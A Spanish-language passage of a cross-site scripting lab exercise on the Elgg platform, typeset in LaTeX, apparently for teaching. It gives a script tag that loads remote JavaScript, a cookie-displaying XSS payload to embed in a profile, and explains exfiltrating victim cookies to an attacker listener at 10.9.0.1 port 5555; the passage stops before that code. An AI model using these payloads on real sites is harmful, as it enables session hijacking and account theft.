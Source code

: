 En este caso, el código JavaScript es lo suficientemente corto como para ser ingresado en el campo de descripción, en caso que desee correr un código más largo pero se encuentre limitado por la cantidad de caracteres a ingresar en el campo del formulario, se puede usar un archivo JavaScript cargándolo desde una ubicación remota usando el atributo {\tt src} dentro del tag {\tt <script>}  A continuación se detalla el ejemplo:
\begin{lstlisting}
<script type="text/javascript" 
        src="http://www.example.com/myscripts.js">
</script>
\end{lstlisting}
En el ejemplo anterior, la página cargará el archivo JavaScript desde \url{http://www.example.com}, pero podría ser cualquier otro servidor.


\subsection{Tarea 2: Posteando un Mensaje Malicioso para Mostrar las Cookies}

El objetivo de esta Tarea es embeber código Javascript dentro de su perfil en {\tt Elgg}, esto hará que cuando un usuario visite su perfil este código sea ejecutado y se abrirá una ventana de alerta. 
A continuación se mostrará el código que deberá ser embebido:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



\subsection{Tarea 3: Robar las Cookies de la Víctima}

En la tarea anterior hemos utilizado código JavaScript malicioso donde el atacante puede imprimir las cookies de un usuario, pero solamente ese usuario puede ver las cookies y no el atacante. En esta tarea el atacante podrá recibir y tener acceso a las cookies de la víctima.
Para lograr esto, el código JavaScript necesitará enviar estas cookies en un Request HTTP al atacante.

Esto se puede hacer insertando código JavaScript malicioso que agrega un elemento {$<$img$>$} en el DOM y donde su atributo {\tt src} apunte a la máquina del atacante. 
De esta forma cuando este código sea insertado y el navegador trate de cargar esta imagen desde el tag {\tt img} usando el atributo {\tt src} como origen de la misma, terminará enviando un Request HTTP GET hacia la máquina del atacante.
El siguiente código envía las cookies al puerto 5555 de la máquina del atacante (cuya IP es {\tt 10.9.0.1}) y donde el atacante tiene un servidor TCP escuchando en ese puerto.

